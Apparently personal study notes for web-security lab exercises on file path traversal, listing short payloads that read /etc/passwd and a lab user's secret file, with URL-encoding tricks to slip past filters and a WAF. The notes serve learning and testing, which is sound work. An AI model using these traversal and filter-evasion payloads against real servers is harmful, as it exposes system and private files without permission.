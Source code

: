____

Just scan it with Burp. It will make all the work. 

![[Pasted image 20240904071816.png]]


If you can get /etc/passwd, but cannot get /home/carlos/secret (maybe WAF is blocking the word **secret**), just URL-Encode the whole payload (even with /home/carlos/secret) like this:

```bash
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```

```bash
/image?filename=/../../../../../../../../../../../../home/carlos/secret
```

# File path traversal, simple case

```bash
GET /image?filename=../../../etc/passwd
```

# File path traversal, traversal sequences blocked with absolute path bypass

```bash
GET /image?filename=%2fetc%2fpasswd
```

# File path traversal, traversal sequences stripped non-recursively

```bash
GET /image?filename=...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2fetc%2fpasswd
```

# File path traversal, traversal sequences stripped with superfluous URL-decode

```bash
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```




